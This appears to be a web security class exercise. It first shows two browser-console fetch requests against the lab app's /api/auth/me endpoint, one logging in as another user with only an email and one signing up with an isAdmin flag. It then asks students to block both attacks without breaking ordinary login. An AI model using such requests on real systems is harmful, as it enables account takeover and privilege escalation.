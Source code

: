 ## The Attack

It is possible to login with just an email. For example, you could run this in the browser console to log in as Zeke (after submitting, refresh the page):

```js
fetch('/api/auth/me', {
  method: 'PUT',
  headers: new Headers({
    'Content-Type': 'application/json'
  }),
  body: JSON.stringify({
    email: 'zeke@zeke.zeke'
  }),
  credentials: 'same-origin'
});
```

Similarly you can set your privilege level as "admin" when signup up by doing something like:

```js
fetch('/api/auth/me', {
  method: 'POST',
  headers: new Headers({
    'Content-Type': 'application/json'
  }),
  body: JSON.stringify({
    email: 'voldemort@hogwarts.edu',
    isAdmin: true
  }),
  credentials: 'same-origin'
});
```

## Try to Defend

Gain one point each for making the above attacks impossible. Remember not to break login or signup: lose one point if at the end of you machinations, ordinary login or signup does not work anymore.

<guide>
The instructor has said it's time to go onto the next exercise
</guide>